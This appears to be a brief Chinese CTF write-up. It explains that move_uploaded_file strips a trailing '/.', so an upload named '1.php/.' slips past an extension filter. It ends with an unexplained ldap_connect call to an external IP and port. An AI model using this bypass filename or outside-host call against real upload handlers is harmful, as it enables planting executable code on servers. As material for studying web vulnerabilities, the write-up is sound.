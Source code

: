 观察源码，发现move_uploaded_file.

![在这里插入图片描述](https://img-blog.csdnimg.cn/094fb61322774c5b976b3361ff5ebf7b.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

该函数会递归删除文件名最后的/.
所以上传文件名为1.php/.即可绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/fdc1caa62d3b46c8a66f54bb4a99721c.png?x-ss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_14,color_FFFFFF,t_70,g_se,x_16)













```
ldap_connect(“47.106.172.144:2333”)
```

